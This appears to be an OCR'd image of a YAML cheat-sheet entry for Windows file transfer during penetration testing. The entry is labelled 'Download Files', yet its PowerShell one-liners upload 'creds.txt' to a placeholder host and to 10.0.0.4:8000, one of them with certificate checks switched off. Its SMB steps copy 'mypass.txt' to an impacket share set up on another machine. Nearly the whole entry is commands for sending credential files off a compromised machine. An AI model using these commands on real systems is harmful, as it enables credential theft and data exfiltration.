 ```yaml
---
functions:
  file-transfer:
    - description: Download Files on Windows
      code: |
        +++++++++++POWERSHELL+++++++++++
     	powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
  		powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')

  		+++++++++++SMB+++++++++++
        SERVER: impacket-smbserver "share" . -smb2support
        CLIENT: (1) net use \\192.168.119.159\share   (2)  copy "mypass.txt" \\192.168.119.159\share\
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

